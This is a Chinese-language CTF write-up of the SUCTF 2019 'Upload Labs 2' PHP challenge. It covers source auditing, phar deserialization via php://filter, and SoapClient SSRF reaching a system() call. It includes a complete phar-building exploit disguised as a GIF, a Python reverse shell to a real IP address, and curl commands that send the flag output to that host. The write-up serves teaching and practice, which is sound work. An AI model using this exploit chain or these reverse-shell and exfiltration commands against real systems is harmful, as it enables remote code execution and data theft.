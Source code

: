 # \[SUCTF 2019]Upload Labs 2

## \[SUCTF 2019]Upload Labs 2

## 考点

* 代码审计
* phar反序列化
* PHP SoapClient 反序列化触发SSRF
* 使用phar://缺不能以phar开头时，可以使用`php://filter/resource=phar://`
* finfo\_file() 结合 php://filter 触发 phar 反序列化

## wp

有两个功能，上传图片和查看图片信息。

给了源码，和修改后的admin.php，要进行审计

index. php是文件上传功能，白名单限制。func.php是文件读取功能，返回文件的MIME。class.php定义了File类和Check类。至此基本判断是phar反序列化。

首先是index.php，说明了上传路径为 `upload/md5($_SERVER["REMOTE_ADDR"])`，然后采用白名单的方式限制后缀和content-type，最后调用Check类的check函数对上传文件内容做一个检查，不允许`<?`存在。对于func.php，是获取上传的文件，采用黑名单的方式封禁了很多PHP伪协议。然后调用自定义的File类来获取文件

然后找获取flag的地方，在admin.php的Ad类的`__destruct()`使用了system函数，也就是说要<mark style="background-color:orange;">对Ad类进行实例化，或者反序列化</mark>。

```php
class Ad{
    public $cmd;
    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;
    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){
        $this->cmd = $cmd;
        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }
    function check(){
        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);
        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
        $reflectionMethod->invoke($this->instance, $this->arg3);
    }
    function __destruct(){
        system($this->cmd);
    }
```

接着看，在admin.php中如果是本地访问，并且POST参数admin，就可以实例化Ad类，并且Ad类的参数都可以用POST提交。

```php
if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
    if(isset($_POST['admin'])){
        $cmd = $_POST['cmd'];

        $clazz = $_POST['clazz'];
        $func1 = $_POST['func1'];
        $func2 = $_POST['func2'];
        $func3 = $_POST['func3'];
        $arg1 = $_POST['arg1'];
        $arg2 = $_POST['arg2'];
        $arg3 = $_POST['arg3'];
        $admin = new Ad($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3);
        $admin->check();
    }
}
```

但是Ad类的`check()`函数的含义是什么？首先通过反射获取`$this->clazz`类，然后构造一个没有属性的`$this->clazz`类的实例化对象，最后分别获取`$this->clazz`类的`$this->func1`，`$this->func2`，`$this->func3`函数，并分别把`$this->arg1`，`$this->arg2`，`$this->arg3`传入执行。通过反射创建的类大概如下，这里类的方法和其参数都可以相同。

```php
Class clazz{
    function func1($arg1){
        ...
    }
    function func2($arg2){
        ...
    }
    function func3($arg3){
        ...
    }
}
```

这里可以使用<mark style="background-color:red;">SplStack类和它的push方法</mark>。POST数据

```
admin=1&cmd=curl "http://121.5.66.238:20010/?a=`/readflag`"&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456
```

要想让 admin.php 去实例化Ad类，就要让 REMOTE\_ADDR 为 127.0.0.1，即本地访问，接下来的问题就是如何去实现SSRF

而在反序列化里面可以实现SSRF的是SoapClient类，接下来就要找触发SoapClient 的位置。<mark style="background-color:orange;">可以看到在 File 类中的 \_\_wakeup() 存在一个反射，那就可通过这个反射，来获取SoapClient对象，然后调用SoapClient对象的check函数，这个check函数SoapClien中并不存在，就可以触发SoapClient的SSRF</mark>

```php
class File{
    public $file_name;
    public $type;
    public $func = "Check";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
    function getMIME(){
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $this->type = finfo_file($finfo, $this->file_name);
        finfo_close($finfo);
    }
    function __toString(){
        return $this->type;
    }
}
```

接下来就是如何让 File() 类反序列化。finfo\_file可以触发phar反序列化，但是在 fuc.php 不能传 phar:// 开头的字符串。<mark style="background-color:green;">在PHP中，php://filter/resource这个伪协议可以触发phar反序列化，所以在 fuc.php 不能传 phar:// 开头的字符串，可以使用 php://filter/resource=phar://......进行绕过</mark>

这里直接放反弹shell的exp

```php
<?php

class File{
	public $file_name;
	public $func="SoapClient";
	public function __construct(){
		$payload='admin=1&cmd=python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("121.5.66.238",20010));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456';
		$this->file_name=[null,array('location'=>'http://127.0.0.1/admin.php','user_agent'=>"xxx\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: ".strlen($payload)."\r\n\r\n".$payload,'uri'=>'abc')];
	}	
}
$a=new File();
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('GIF89a'.'<script language="php">__HALT_COMPILER();</script>');
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

使用上面的exp生成phar，改名为1.gif，再上传。在vps监听端口，在 fuc.php 中输入`php://filter/resource=phar://upload/cc551ab005b2e60fbdc88de809b2c4b1/b1467d0a5330091b554e2d892f7e8308.gif`，就可以反弹shell了

![](<../../.gitbook/assets/image (14) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1).png>)

或者是cmd改成``curl "http://121.5.66.238:20010/?a=`/readflag`"``直接获取flag

![](<../../.gitbook/assets/image (24) (1) (1).png>)

## 小结

1. 原题预期解是MySQL 客户端任意文件读取（MySQL Client Attack），改代码后简化了很多
2. [SUCTF 2019 Upload labs 2 踩坑记录](https://www.cnblogs.com/peri0d/p/12465523.html)
3. [https://www.cnblogs.com/tr1ple/p/11394464.html](https://www.cnblogs.com/tr1ple/p/11394464.html)
